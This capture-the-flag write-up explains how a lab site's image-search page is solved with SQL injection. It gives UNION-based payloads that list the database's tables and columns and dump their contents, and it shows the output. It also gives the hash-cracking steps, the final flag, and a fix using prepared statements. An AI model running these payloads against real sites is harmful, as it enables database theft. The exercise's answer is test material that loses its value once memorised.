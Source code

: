 # Where:
    /?page=searchimg
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    Title: list_images
    Url :
    
-This tells us that the only table is *list_images*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: id
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: url
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: title
    Url : 
    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
    Title: comment
    Url :
    
-This tells us that there are the following columns: *id*, *url*, *title* and *comment*.

-We then enter:

    -1 union select NULL, concat (id, url, title, comment) from list_images

-We get all the images' information.
-The 5th image has the following comment that give us a string and instructions:

    Hack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

-If we decrypt *1928e8083cf461a51303633093573c46* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *albatroz*
-Which we then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
    f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.<br>
I do also believe sha256 is a better hash to use especialy when combined with a salt.
